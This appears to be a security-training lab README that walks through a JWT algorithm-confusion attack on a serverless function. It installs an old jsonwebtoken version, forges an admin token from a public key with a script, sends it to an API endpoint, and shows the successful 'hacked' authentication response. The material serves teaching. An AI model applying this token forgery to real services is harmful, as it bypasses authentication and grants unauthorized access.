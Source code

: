 # **Algorithm Confusion**


### *  *

-------

#### Step 1:

* Navigate to the `Algorithm-Confusion` directory on the provisioned server

```commandline
cd /root/container-training/Serverless/Algorithm-Confusion
```

-------

#### Step 2:

* Install the necessary node packages

```commandline
npm install -s jsonwebtoken@4.2.0 colors
```

* Run `token_gen.js` using the `public_key.pem` and `admin` as arguments to tamper with the Algorithm. It should return with a JWT Token

```commandline
node token_gen.js --file public_key.pem --username admin
```

* Using the token fetched in the previous step, send a request to the function

```commandline
http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:<token>
```

### *It should return with a response similar to the one below:*



```commandline
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
Access-Control-Allow-Methods: GET,OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 0
Connection: keep-alive
Content-Length: 114
Content-Type: application/json
Date: Tue, 25 Sep 2018 17:12:14 GMT
Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
X-Amz-Cf-Id: JquwGQ1bb1vr5ev4oFF6R8e5MqbzM-YqyVvEJJKaz7fPN0nRlly3rw==
X-Amzn-Trace-Id: Root=1-5baa6c6d-a196d3961775849ef9a9ffc4;Sampled=1
X-Cache: Miss from cloudfront
X-Success-Request: true
x-amz-apigw-id: NyXhKFUHoAMFscA=
x-amzn-RequestId: 25718e25-c0e6-11e8-86e5-dddb808cd601

{
    "decoded": {
        "iat": 1537880286, 
        "status": "hacked", 
        "username": "admin"
    }, 
    "success": "You are successfully authenticated"
}
```

---------

### Reading Material/References:
